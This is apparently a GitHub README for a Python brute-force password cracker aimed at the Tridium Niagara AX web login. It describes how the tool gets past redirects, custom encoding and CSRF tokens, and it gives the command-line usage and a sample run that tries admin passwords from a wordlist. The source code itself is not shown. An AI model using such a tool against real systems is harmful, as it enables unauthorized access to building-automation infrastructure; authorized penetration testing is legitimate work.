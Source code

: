 # Tridium Niagara Password Cracker
By VenomInfoSec


## Purpose
An online password cracker that brute forces passwords for the Tridium Niagara platform.
* Hydra didn't work with the target due to multiple redirects, custom encoding scheme, and CSRF tokens.
* Currently only supports HTTP but the testCreds() method can be modified to support HTTPS since it just uses the requests module

## Help
```
C:\>python NiagaraPswd.py -h
usage: NiagaraPswd.py [-h] -l LIST -u USERNAME -f FAILURE [-r] target

Brute force Tridium Niagara AX Web Login

positional arguments:
  target                The IP or root URL of the Tridium Niagara AX Webpage

optional arguments:
  -h, --help            show this help message and exit
  -l LIST, --list LIST  The path of the wordlist to be used
  -u USERNAME, --username USERNAME
                        The username to try
  -f FAILURE, --failure FAILURE
                        The path of the webpage that illustrates what a failed
                        login attempt is
  -r, --resume          If the last attempt resulted in unexpected program
                        failure, use this option to resume from the last
                        credentail tried
  -s SCHEME, --scheme SCHEME
                        Scheme of base URL, default: http.
```

## Example
```
C:\>python NiagaraPswd.py -l phpbb-rules.txt -u admin -f default.html 127.0.0.1
 [*] Initializing wordlist...

 [-] admin:YeBs2wu992 is incorrect
 [-] admin:avKNwJ2938 is incorrect
 [-] admin:dAGwAKn976 is incorrect
 [-] admin:XeesHfy623 is incorrect
 [-] admin:S8Ydn4l735 is incorrect
 [!] Keyboard Interrupt, saving last tried creds

```

## TODO
- [ ] Add support for threading
